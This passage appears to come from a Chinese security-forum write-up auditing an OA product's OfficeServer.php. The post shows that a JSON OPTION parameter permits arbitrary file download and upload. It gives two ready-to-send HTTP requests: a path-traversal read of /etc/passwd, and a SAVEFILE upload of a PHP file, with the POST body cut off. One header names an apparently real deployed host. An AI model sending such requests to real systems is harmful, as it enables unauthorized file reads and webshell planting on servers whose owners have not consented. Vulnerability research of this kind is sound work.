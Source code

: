 所以我们直接访问下发现返回200证明文件存在

![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-2ac95e16d901403e18d1a3d20f9d494abef5ee97.png)​​

接着审计代码逻辑

![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-74480b61d4d5cb1e3c4dafb8e1315cef6ce490a7.png)​

代码很短，可以很轻松读懂，获取一个json值，然后获取他的`OPTION`​值满足他的switch值就可以进入到上传的逻辑，可以进行文件下载，也可以进行上传

经过测试，可控

![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-2776476cf93d53e6f80e2de61696255387c0cbcf.png)​

‍

![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-ab4fc5f75e574c015240d4465ab3f5d3fed0d13d.png)​

接着就是构造下载包和上传包了

‍

![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-a0bd47fe06071064450ed17f8d4d1c6d0ff6aa6c.png)​

```xml
GET /static/lib/weboffice/js/OfficeServer.php?FormData={%22OPTION%22:%22LOADFILE%22,%22FILEPATH%22:%22/../../../../../../../../../../../etc/passwd%22} HTTP/1.1
Host: xxxx
Accept: application/json, text/javascript, */*; q=0.01
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.171 Safari/537.36
X-Requested-With: XMLHttpRequest
Referer: http://oa1.shuidinet.com/index.php/oa/main/login
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

‍

![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-ae2051a3212f42e9134b19d3229e752caddc87f7.png)​​

```xml
POST /static/lib/weboffice/js/OfficeServer.php?FormData={%22OPTION%22:%22SAVEFILE%22,"FILEPATH":"/222.php"} HTTP/1.1
Host: xxxx
Content-Length: 202
Cache-Control: max-age=0
sec-ch-ua: 
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: ""
Upgrade-Insecure-Requests: 1
Origin: http://127.0.0.1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryQayVsySyhSwgpmLk
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.171 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://127.0.0.1/upload/upload.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

```